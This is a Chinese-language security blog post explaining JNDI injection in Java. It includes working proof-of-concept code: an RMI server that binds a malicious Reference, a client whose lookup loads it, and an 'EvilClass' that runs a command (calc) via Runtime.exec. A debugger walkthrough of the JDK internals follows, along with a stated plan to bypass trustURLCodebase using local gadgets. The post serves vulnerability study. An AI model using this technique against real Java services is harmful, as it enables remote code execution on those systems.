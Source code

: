 ﻿---
title: JNDI注入再理解
date: 2025-04-14 10:33:52
tags:
- JNDI
categories:
  - [漏洞原理]
---
嗯，感觉以前对这个概念的理解不是很清楚，今天抽了时间再学习了学习。

JNDI提供了一个统一的接口屏蔽了一些协议负载的调用与使用过程，如RMI、LDAP、COBRA等，主要功能是实现了远程方法调用，针对JNID的攻击一般有以下两种，一种是注册在远程的对象由一些危险的方法，那么我们便可以直接使用注册中兴对外暴露的接口调用这些危险的方法来实现攻击，一类是我们可以直接在客户端向注册中心直接注册一个恶意对象，因为对象在传输过程中时序列化传输的，那么注册中心再加载该对象的时候会进行反序列化操作，那么如果我们的恶意对象的静态代码块中有一些危险操作那么便会直接被执行，因为静态代码块中的方法是在类加载过程中被调用的，且只会调用一次。
关于第一种情况，没什么好说的，只要我们能够远程调用接口便能完成攻击，当然是在你知道对方注册了什么危险对象的基础上。第二种情况也分多种情况，一是我们可以直接向远程注册恶意对象。二是我们可以利用JNDI的动态类加载机制完成攻击，一是利用CodeBase机制，如果客户端的lookup参数内容可控，那么我们便可以自行搭建一个注册中心，注册恶意类。那么客户端在调用的时候就会调用到我们的恶意对象，但是这有一个问题，如果是我们自行注册的恶意对象，那么客户端如果没有这个恶意类，客户端也是不会反序列化成功的，利用CodeBase机制我们可以在服务端指定恶意类的加载地址，当客户端请求该恶意对象的时候，客户端会一并将CodeBase指定的地址发送个客户端，如果客户端没有这个恶意类那么则会使用CodeBase指定的地址去加载恶意类，从而完成恶意类的自动调用。这里注意CodeBase是双向指定的，客户端可以指定，服务端也可以指定，当然优先使用的是服务端指定的地址。麻烦的是一些版本的JDK模式不允许CodeBase远程类加载，而且还涉及到java的安全管理器。另一种情况是利用JNDI Naming Reference，Reference类表示对存在于命名/目录系统以外的对象的引用，如果注册在注册中心的对象为Reference类的子类，那么再客户端获取到远程对象的存根实例的时候将使用Reference对象指定的远程地址与类名去加载恶意类从而完成攻击，可以注意到，这个攻击发生在客户端。因为Reference没有继承UnicastRemoteObject，所以我们需要对Reference类使用ReferenceWrapper对其进行包装，然后绑定在注册中心中才能实现远程调用。两种情况重点都是需要lookup函数参数可控，也就是可以指定远程服务器的位置，当然你如果可以操控对方远程服务器又另说。
这里我们介绍一下通过Reference类来实现JNDI注入，首先我们写一个客户端。
<!--more-->
```java
package com.armandhe.jnditest;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        InitialContext initialContext = new InitialContext();
        Object lookup = initialContext.lookup("rmi://127.0.0.1/hacked");
    }
}

```
> System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

这一行代码是为了避免高版本的JDK值允许在指定位置加载类的特性
然后我们写一个服务端
```java
package com.armandhe.jnditest;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, MalformedURLException {
        String className = "com.armandhe.jnditest.EvilClass";
        String url = "file://E:\\securityTools\\源码\\jnditest\\src\\main\\java\\com\\armandhe\\jnditest\\EvilClass.class";
        LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(className, className, url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        Naming.rebind("hacked", referenceWrapper);
        System.out.println("rmi://127.0.0.1/hacked is working...");
    }
}

```
服务端就不起http服务器了，我们通过file协议将远程类的地址设置为本地文件系统，因为我的客户端与服务器在同一台机器上，所以这样也是可以的，然后声明一个注册中心，绑定一个端口，实例化一个Reference类，使用ReferenceWrapper对其进行包装，因为其继承了UnicastRemoteObject类，这样我们的Reference才能被远程调用
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/3f4e96c56945648fc75944c7e79c003f.png)

然后是我们的恶意类
```java
package com.armandhe.jnditest;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilClass implements ObjectFactory {
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        Runtime.getRuntime().exec("calc");
        return null;
    }
}

```
在该类中我们集成了ObjectFactory类，重写了其getObjectInstance方法。
然后讲服务端与客户端分别运行起来，然后打断点进行调试
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/92ca44c08af8d3f8f8dc95bcbb1dc7f0.png)
首先调用的是InitialContext#lookup方法，该方法首先调用了其静态方法getURLOrDefaultIniCtx，获取了一个Context对象，该Context对象是GenericURLContext类的一个实例，然后调用其lookup方法，出入jndi表达式
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/dd088615137ff86c90161159605ab82d.png)
然后继续往下走进入到RegistryContext#lookup方法，该方法会调用decodeObject方法对远程对象进行解析，该方法接收两个参数，一个是我们远程获取的ReferenceWrapper对象，一个是我们的查询name，也就是hacked
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/664327f269b07c14eda517690151d4be.png)
方法体重首先会判断我们传入的对象是否是RemoteReference与Reference类的实例，然后进行强制类型转换为Reference对象，判断是否设置了远程类的位置，以及该地址是否是可信的CodeBase地址，这也是为什么我们最开始要设置com.sun.jndi.rmi.object.trustURLCodebase为true的原因，否则是不可能调用成功的。
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/2ad184a640746724ee37cfee2f712d44.png)
方法体最终会调用NamingManager#getObjecInstance方法，传入我们的Reference对象与name

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9632a133680faef2d9e3996b90079db5.png)
该方法中重点在第330行与332行，在330行调用getObjectFactoryFromReference闯入Reference对象与f，f就是我们的恶意类的全类名，该方法中或实例化我们的恶意类。
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/d3cecb586e66ba61b934f8750f559d30.png)
首先是在第148行获取了我们恶意类的Class对象，然后通过反射的方式对该类进行了实例化，所以我们的恶意类的恶意代码可以写在静态代码块、实例代码块、无参构造方法中。熟悉java类加载机制的都清楚，java的类夹杂核心方法为loadClass、defineClass、findClass，这已经很明显了
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/0e380d2e8ab633810450f2c701af429e.png)
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9b8b0f55bc77487f1ae605af4c268efe.png)
getObjectFactoryFromReference方法执行完成后会获得我们自定义的ObjectFactory对象，让后调用该对象的getObjectInstance方法，这也是我们的恶意代码可以写在该方法中的原因。
所以你注意到了吗，这种方式是不能绕过高版本JDK的trustURLCodebase机制的，所以有局限，那么要如何在高版本JDK使用这种方式注入呢，相比你已经很清楚了，我们之所以需要使用CodeBase是因为我们要加载的远程类在本地不存在，那么如果在客户端测存在我们要使用的恶意类不就完美的避免了CodeBase的保护机制了吗？所以我们下一章就去找一找这个tomcat或者JDK本地的危险Gadget









